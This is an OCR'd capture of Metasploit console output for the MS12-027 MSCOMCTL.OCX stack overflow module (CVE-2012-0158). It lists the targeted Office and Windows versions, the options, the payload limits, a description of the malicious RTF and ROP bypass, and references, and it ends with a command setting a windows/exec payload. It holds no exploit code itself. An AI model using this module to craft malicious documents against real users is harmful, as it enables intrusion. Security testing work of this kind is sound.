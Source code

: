 ```

  Id  Name

  --  ----

  0   Microsoft Office 2007 [no-SP/SP1/SP2/SP3] English on Windows [XP SP3 / 7 SP1] English

  1   Microsoft Office 2010 SP1 English on Windows [XP SP3 / 7 SP1] English



Basic options:

  Name      Current Setting  Required  Description

  ----      ---------------  --------  -----------

  FILENAME  msf.doc          yes       The file name.



Payload information:

  Space: 900

  Avoid: 1 characters



Description:

  This module exploits a stack buffer overflow in MSCOMCTL.OCX. It

  uses a malicious RTF to embed the specially crafted

  MSComctlLib.ListViewCtrl.2 Control as exploited in the wild on April

  2012. This module targets Office 2007 and Office 2010 targets. The

  DEP/ASLR bypass on Office 2010 is done with the Ikazuchi ROP chain

  proposed by Abysssec. This chain uses "msgr3en.dll", which will load

  after office got load, so the malicious file must be loaded through

  "File / Open" to achieve exploitation.



References:

https://cvedetails.com/cve/CVE-2012-0158/OSVDB (81125)

http://www.securityfocus.com/bid/52911

https://technet.microsoft.com/en-us/library/security/MS12-027

http://contagiodump.blogspot.com.es/2012/04/cve2012-0158-south-china-sea-insider.html



msf exploit(ms12_027_mscomctl_bof) &gt; set payload windows/exec

```